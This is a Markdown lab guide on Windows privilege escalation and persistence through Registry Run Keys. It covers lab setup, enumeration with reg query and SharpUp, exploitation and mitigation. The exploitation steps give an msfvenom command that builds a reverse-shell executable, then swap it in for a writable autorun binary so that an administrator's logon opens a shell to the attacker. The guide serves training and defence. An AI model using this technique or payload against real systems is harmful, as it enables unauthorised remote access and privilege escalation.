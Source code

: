 # Logon Autostart Execution (Registry Run Keys)

## Table of Contents

- [Logon Autostart Execution (Registry Run Keys)](#logon-autostart-execution-registry-run-keys)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Logon Autostart Execution through Registry Run Keys is a Windows feature that enables specific programs or scripts to launch automatically when a user logs into the system. This feature allows these programs or scripts to launch automatically without any manual action from the user when the operating system starts up. 

Attackers may exploit the Logon Autostart Execution feature by inserting malicious software into the Registry Run Keys. This enables the malicious code to automatically launch during system startup, potentially granting it elevated privileges. 

## Lab Setup

### Manual Lab Setup

:warning: To proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.

1) Open a PowerShell with local Administrator privileges and run the following command to create a new folder:

```
mkdir "C:\Program Files\NickvourdSrv"
```

Outcome:

![Autostart-Registry-Keys-Create-Directory](/Pictures/AutostartRegistryKeys-LabSetup-Part1.png)

2) Download the file [NCV_AMD64.exe](/Lab-Setup-Binary/NCV_ADM64.exe) to the 'C:\Program Files\NickvourdSrv' directory.

3) Modify the permissions of the 'C:\Program Files\NickvourdSrv' directory to allow Full Control for all users:

![Autostart-Registry-Keys-Modify-Directory-Permissions](/Pictures/AutostartRegistryKeys-LabSetup-Part2.png)

4) Open a PowerShell with local Administrator privileges and run the following command to edit registry key:

```
regedit
```

5) Navigate to `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` and create new String Value `NickvourdSrv`:

![Autostart-Registry-Keys-Create-Registry-key-String-Value](/Pictures/AutostartRegistryKeys-LabSetup-Part4.png)

6) Modify the key string named `NickvourdSrv` with value data `C:\Program Files\NickvourdSrv\NCV_AMD64.exe`:

![Autostart-Registry-Keys-Modify-Registry-key-String-Value](/Pictures/AutostartRegistryKeys-LabSetup-Part6.png)

### PowerShell Script Lab Setup 

:warning: To proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.

Another way to set up the lab with the 'Logon Autostart Execution (Registry Run Keys)' scenario is by using the custom PowerShell script named [LogonAutostartExecutionRegistryRunKeys.ps1](/Lab-Setup-Scripts/LogonAutostartExecutionRegistryRunKeys.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\LogonAutostartExecutionRegistryRunKeys.ps1
```

Outcome:

![Autostart-Registry-Keys-PowerShell-Lab-Setup-Script](/Pictures/AutostartRegistryKeys-LabSetup-Part7.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration and identify whether a Windows workstation is vulnerable to the RegistryAutoruns issue, you can use the following command from a command prompt:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Outcome:

![RegistryAutoruns-Manual-Enumeration](/Pictures/RegistryAutoruns-Manual.png)

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `RegistryAutoruns` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit RegistryAutoruns
```

Outcome:

![RegistryAutoruns-SharpUp](/Pictures/RegistryAutoruns-SharpUp.png)

:information_source: Moreover, you can use `SharpUp.exe audit` to perform a comprehensive enumeration of all misconfigurations vulnerabilities on the specified machine.

## Exploitation

1) Use msfvenom to generate a malicious executable (exe) file that can be executed via the booting of the victim's machine:

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > shell.exe
```

2) Transfer the malicious executable file to victim's machine.

3) Move the malicious executable file to 'C:\Program Files\NickvourdSrv'.

4) Rename the 'NCV_AMD64.exe' to 'NCV_AMD64.bak'.

5) Rename the malicious exe (shell.exe) to 'NCV_AMD64.exe'.

Outcome:

![RegistryAutoruns-AboveActions](/Pictures/RegistryAutoruns-AboveActions.png)

6) Open a listener on your Kali machine.

7) Reboot the victim's machine and login as Adminstrator:

![Reboot-victim-machine](/Pictures/Reboot-Victim-Machine2.png)

8) Verify the reverse shell on your Kali machine:

![Reverse-Shell-As-Admin-RegistryAutoRuns](/Pictures/Reverse-Shell-As-Admin-RegistryAutoRuns.png)

## Mitigation

To defend against Registry auto-run vulnerabilities, adjust permissions on folders containing executables initiated through this mechanism. This limits unauthorized access and strengthens security measures.

Moreover, to delete a specific auto-run key value from the Windows Registry, you can use the following command in Command Prompt with local Administrator privileges:

```
reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "<KeyName>" /f
```

## References

- [Run and RunOnce Registry Keys Microsoft](https://learn.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys)
- [Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder Mitre](https://attack.mitre.org/techniques/T1547/001/)
